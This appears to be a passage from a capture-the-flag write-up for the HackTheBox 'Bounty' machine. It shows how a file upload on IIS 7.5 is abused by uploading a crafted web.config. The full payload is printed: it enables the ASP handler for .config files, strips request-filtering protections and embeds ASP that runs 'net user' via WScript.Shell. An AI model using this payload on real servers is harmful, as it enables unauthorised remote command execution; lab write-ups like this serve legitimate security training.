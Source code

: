 ![Transfer](Second.png)

I will be able to upload files to the server, nice. Is there any RCE based on file uploads in IIS 7.5? A quick search landed me into a [blog post](https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/) which shows that uploading a web.config file containg asp code can be used to execute remote commands.

## Exploit
 
First setup will be to confirm if I will be able to upload a web.config file and check if RCE is possible. Once uploaded, the config file might be present in the uploadedfiles directory. 



```asp
┌──(kali㉿kali)-[~/HackTheBox/Bounty/exploit]
└─$ cat web.config          
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("net user")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>

```

![RCE](Three.png)
